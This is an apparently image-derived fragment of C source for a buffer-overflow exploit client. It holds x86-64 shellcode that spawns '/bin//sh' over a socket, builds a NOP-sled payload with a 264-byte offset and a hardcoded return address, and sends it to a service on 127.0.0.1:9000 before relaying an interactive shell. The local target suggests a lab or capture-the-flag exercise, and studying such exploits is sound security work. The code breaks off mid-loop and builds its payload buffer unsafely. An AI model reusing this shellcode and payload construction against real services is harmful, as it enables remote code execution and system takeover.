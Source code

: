```c
    char *shellcode = "\x48\x31\xc0\x50\x50\x50\x5e\x5a\x50\x5f\xb0\x20\x0f\x05\x48\xff\xc8\x50\x5f\xb0\x21\x0f\x05\x48\xff\xc6\x48\x89\xf0\x3c\x02\x75\xf2\x52\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\x52\x5e\xb0\x3b\x0f\x05";
    char *addr = "\x10\xdd\xff\xff\xff\x7f\x00\x00";
    int off = 264;

    int nops = off - strlen(shellcode);
    int payload_size = nops + strlen(shellcode) + strlen(addr);
    char payload[payload_size];

    memset(payload, '\x90', nops);
    strcat(payload, shellcode);
    strcat(payload, addr);

    printf("SLED %d Shellcode: %zu Payload size: %zu\n", nops, strlen(shellcode), strlen(payload));

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd == -1) {
        perror("Socket creation failed");
        exit(EXIT_FAILURE);
    }

    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = inet_addr("127.0.0.1");
    server_addr.sin_port = htons(9000);

    if (connect(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) {
        perror("Connection failed");
        exit(EXIT_FAILURE);
    }

    fd_set readfds;
    FD_ZERO(&readfds);
    FD_SET(STDIN_FILENO, &readfds);
    FD_SET(sockfd, &readfds);

    int flag = 1;

    while (1) {
        fd_set testfds = readfds;
        struct timeval timeout;
        timeout.tv_sec = 0;
        timeout.tv_usec = 100000;

        if (select(sockfd + 1, &testfds, NULL, NULL, &timeout) < 0) {
            perror("Select failed");
            exit(EXIT_FAILURE);
        }

        if (FD_ISSET(sockfd, &testfds)) {
            char response[BUF_SIZE];
            memset(response, 0, sizeof(response));
            ssize_t recv_size = recv(sockfd, response, sizeof(response) - 1, 0);
            if (recv_size < 0) {
                perror("Receive failed");
                exit(EXIT_FAILURE);
            }
            printf("%s", response);
        }

        if (FD_ISSET(STDIN_FILENO, &testfds)) {
            flag = 1;
            char line[BUF_SIZE];
```